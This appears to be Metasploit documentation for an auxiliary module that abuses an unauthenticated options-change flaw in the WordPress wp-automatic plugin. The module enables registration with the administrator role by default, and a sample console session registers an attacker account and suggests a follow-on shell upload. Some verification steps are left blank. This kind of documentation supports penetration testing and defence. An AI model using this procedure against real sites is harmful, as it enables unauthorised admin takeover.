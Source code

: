## Vulnerable Application

This module exploits an unauthenticated arbitrary wordpress options change vulnerability
in the Automatic (wp-automatic) plugin.

If `WPEMAIL` is provided, the administrator's email address will be changed.

User registration is enabled, and default user role is
set to administrator.  A user is then created with the `USER` name set.
A valid `EMAIL` is required to get the registration email (not handled in MSF).

A vulnerable version of the plugin can be downloaded [here](https://legendblogs.com/wp-automatic-plugin-free-download)

## Verification Steps

1. Install the vulnerable plugin
1. Start msfconsole
1. Do: `use `
1. Do: ``
1. Do: `run`
1. You should .

## Options

### EMAIL

Email for registration. No default.

### USER
Username for registration, defaults to `msfuser`

### WPEMAIL

Wordpress Administration Email. No default.

## Scenarios

### wp-automatic 3.50.7 on Wordpress 5.4.4 No WPEMAIL

```
resource (automatic.rb)> use wp_automatic_plugin_privesc
[*] Using auxiliary/admin/http/wp_automatic_plugin_privesc
resource (automatic.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (automatic.rb)> set verbose true
verbose => true
resource (automatic.rb)> set email fake@example.com
email => fake@example.com
resource (automatic.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[!] Enabling user registrations...
[!] Setting the default user role type to administrator...
[*] Registering msfuser with email fake@example.com
[+] For a shell: use exploits/unix/webapp/wp_admin_shell_upload
[*] Auxiliary module execution completed
```
